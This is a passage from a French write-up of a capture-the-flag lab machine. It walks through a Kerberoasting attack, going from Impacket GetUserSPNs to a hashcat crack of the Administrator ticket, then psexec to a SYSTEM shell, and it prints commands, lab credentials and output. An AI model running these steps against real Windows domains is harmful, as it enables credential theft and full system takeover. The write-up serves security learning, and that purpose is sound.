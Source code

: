 En fait il semble que quelqu'un a du lancer un exploit et la machine s'est retrouvée dans un état... inattendu.  

Kerberoast 101
--------------

Pour avoir lu pas mal d'articles traitant de Windows/Kerberos, c'était compréhensible au vu du nom du compte récupéré (TGS => Ticket Granting Service) qu'on aurait à passer par *Kerberos*.  

La suite [Impacket](https://github.com/CoreSecurity/impacket) dispose de différents scripts liés à l'énumération/l'exploitation Windows dont certains directement relatifs à Kerberos.  

```plain
devloop@kali:~/Downloads/impacket-impacket_0_9_17$ PYTHONPATH=. python examples/GetUserSPNs.py -dc-ip 10.10.10.100 -outputfile /tmp/hashes.txt ACTIVE.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon
--------------------  -------------  --------------------------------------------------------  -------------------  -------------------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-07-30 19:17:40
```

Cela permet de récupérer les *Ticket de Services* (qui sont chiffrés avec le hash du compte correspondant servant à faire tourner ledit service). Une recherche sur Kerberoast vous permettra de retrouver les détails de l'attaque.  

Ici on voit CIFS (partage de fichier) tournant avec le compte Administrator.  

Impacket nous livre le ticket dans un format directement brute-forcable avec hashcat :  

```plain
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$3ec305740a094af09edd9778826a802--- snip ---869543e0b63
```

On lance alors hashcat avec la commande *hashcat64.bin -m 13100 -a 0 /tmp/hashes.txt /opt/wordlists/rockyou.txt*  

Cela nous donne le mot de passe *Ticketmaster1968* que l'on peut cette fois utiliser avec *psexec* :  

```plain
devloop@kali:~/Downloads/impacket-impacket_0_9_17$ PYTHONPATH=. python examples/psexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file PIIkmeAQ.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service coDf on 10.10.10.100.....
[*] Starting service coDf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd c:/users/administrator/desktop

c:\Users\Administrator\Desktop>type root.txt
b5fc76d1d6b91d77b2fbf2d54d0f708b
```

Ça y est, cette fois résolu en suivant le chemin attendu :)

*Published December 08 2018 at 18:36*